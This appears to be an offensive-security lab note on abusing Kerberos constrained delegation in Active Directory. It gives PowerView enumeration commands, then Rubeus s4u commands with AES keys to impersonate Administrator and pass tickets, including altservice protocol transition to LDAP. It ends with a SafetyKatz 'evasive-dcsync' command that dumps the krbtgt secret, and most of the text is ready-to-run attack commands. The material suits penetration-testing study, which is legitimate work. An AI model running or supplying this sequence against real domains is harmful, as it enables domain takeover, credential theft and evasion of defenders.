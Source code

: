 To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` (web service on web server) account as **ANY user**

Find users and computers with constrained delegation enabled (PowerView + AD Module)
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

**COMPROMISE THE WEB SERVICE ACCOUNT AND RUN THE FOLLOWING AS IT**

Request a `TGT` and `TGS` and impersonate any user
```powershell
.\Loader.exe -path .\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

Test
```powershell
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

 
> [!NOTE] **NOTE**
> You can edit what services the machine/user account can access if you have `GenericAll/Write` rights to the first hop


#### Protocol Transition
We can change the protocol/service being accessed for the SPN. This is due to the SPN in the TGS being in clear-text and user editable.

**FOR MACHINE ACCOUNT AES KEYS ALWAYS USE THE ONE WHERE THE SID IS `S-1-5-18` AKA THE LAST ONE IN A LSADUMP**

Rubeus and the `/altservice` parameter
```powershell
.\Loader.exe -path .\Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:"time/dcorp-dc.dollarcorp.moneycorp.LOCAL" /altservice:ldap /ptt
```

Now run a DCSync 
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```